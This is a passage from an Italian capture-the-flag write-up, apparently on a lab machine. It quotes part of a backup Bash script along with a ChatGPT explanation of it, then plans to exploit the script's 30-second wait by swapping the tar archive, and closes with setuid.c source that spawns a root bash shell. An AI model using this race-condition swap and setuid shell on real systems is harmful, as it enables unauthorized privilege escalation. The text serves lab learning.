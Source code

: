 ```text
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Chiedo a _ChatGPT_ cosa fa questo programma:


 * Questo script Bash è un programma di backup automatizzato progettato per eseguire il backup di un'applicazione web nella directory `/var/www/html` su una macchina Linux. Ecco una spiegazione delle principali funzionalità e azioni compiute dallo script:

  1. **Variabili e configurazioni iniziali:** Lo script inizia dichiarando alcune variabili per le directory e i file di destinazione. Ad esempio, `$basedir` è la directory dell'applicazione web che verrà eseguito il backup, `$bkpdir` è la directory di destinazione dei backup, `$tmpdir` è una directory temporanea, e così via.

  2. **Creazione di un messaggio di test:** Viene creato un file di testo chiamato `$testmsg` che contiene un messaggio che indica l'ora dell'ultimo esecuzione dello script. Questo messaggio verrà utilizzato per tenere traccia dell'ultimo backup riuscito.

  3. **Pulizia dei vecchi file temporanei:** Viene eseguita una pulizia di vecchi file temporanei e di verifica dell'integrità dei backup precedenti.

  4. **Backup dei file dell'applicazione web:** Il comando `tar` viene utilizzato per comprimere e archiviare i file dell'applicazione web nella directory temporanea indicata da `$tmpfile`.

  5. **Attesa di 30 secondi:** Dopo il backup, lo script attende 30 secondi per consentire il completamento del processo di backup in caso siano stati aggiunti file di grandi dimensioni.

  6. **Controllo dell'integrità del backup:** Viene eseguito un controllo dell'integrità dei file di backup utilizzando il comando `diff`. Se vengono rilevati errori nell'integrità, questi errori vengono registrati nel file di errore `$errormsg`, e lo script restituisce il codice di uscita 2 (indicando un errore). In caso contrario, i file di backup vengono spostati nella directory di destinazione `$bkpdir`, e le directory temporanee vengono eliminate. Il codice di uscita 0 indica un backup riuscito.

Quindi posso sfruttare i 30 secondi di attesa per rimpiazzare il file di backup che viene creato con uno malevolo. Passati i 30 secondi lo script decomprimerà il tar rimpiazzato e fallirà il check sull'integrità.

Per prima cosa creo una cartella _var/www/html/_ sulla mia macchina e inserisco il seguente file [_setuid.c_](https://falconspy.medium.com/useful-oscp-notes-commands-d71b5eda7b02):

```text
#include <unistd.h>int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```
